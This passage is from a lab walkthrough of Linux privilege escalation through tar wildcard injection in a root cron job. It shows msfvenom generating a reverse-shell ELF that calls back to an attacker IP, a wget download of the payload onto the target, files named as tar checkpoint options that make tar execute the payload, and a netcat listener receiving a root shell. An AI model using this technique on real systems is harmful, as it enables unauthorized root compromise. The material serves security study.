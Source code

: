     Note that the tar command is being run with a wildcard (*) in your home directory. Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.

- Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

    ```bash
    $ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.25.205 LPORT=9999 -f elf -o shell.elf
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 74 bytes
    Final size of elf file: 194 bytes
    Saved as: shell.elf
    ```

- Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:

    ```bash
    user@debian:~$ wget http://10.11.25.205:8080/shell.elf
    --2021-01-15 09:33:37--  http://10.11.25.205:8080/shell.elf
    Connecting to 10.11.25.205:8080... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 194 [application/octet-stream]
    Saving to: “shell.elf”

    100%[====================================================================>] 194         --.-K/s   in 0s      

    2021-01-15 09:33:37 (42.8 MB/s) - “shell.elf” saved [194/194]

    user@debian:~$ chmod +x /home/user/shell.elf
    ```

- Create these two files in /home/user:

    ```bash
    user@debian:~$ touch /home/user/--checkpoint=1
    user@debian:~$ touch /home/user/--checkpoint-action=exec=shell.elf
    ```

    When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

- Set up a netcat listener on your Kali box on port 9999 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

    ```bash
    $ nc -lnvp 9999
    listening on [any] 9999 ...
    connect to [10.11.25.205] from (UNKNOWN) [10.10.240.248] 48588
    whoami
    root
    ```

## TO-DO Tomorrow

